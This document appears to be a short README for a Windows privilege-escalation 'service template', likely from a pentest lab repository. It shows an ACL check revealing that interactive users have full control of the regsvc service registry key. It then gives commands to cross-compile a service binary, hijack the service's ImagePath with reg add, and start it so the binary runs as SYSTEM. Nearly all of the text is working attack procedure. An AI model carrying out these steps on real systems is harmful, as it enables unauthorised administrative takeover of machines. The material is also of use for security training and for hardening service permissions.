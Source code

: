 Service Template
===============

- ACL
***

        Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
        ...
    
        Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentc
        ontrolset\services\regsvc
        Owner  : BUILTIN\Administrators
        Group  : NT AUTHORITY\SYSTEM
        Access : Everyone Allow  ReadKey
        NT AUTHORITY\INTERACTIVE Allow  FullControl
        NT AUTHORITY\SYSTEM Allow  FullControl
        BUILTIN\Administrators Allow  FullControl
        Audit  :
        Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)



- Compile
****
        # 64 bits
        x86_64-w64-mingw32-gcc windows_service.c -o service64.exe
        # 32 bits
        i686-w64-mingw32-gcc windows_service.c -o service32.exe


- Execute
*****

1. Place service64.exe in ‘C:\Temp’.
2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\service64.exe /f
3. In the command prompt type:
   

        sc start regsvc

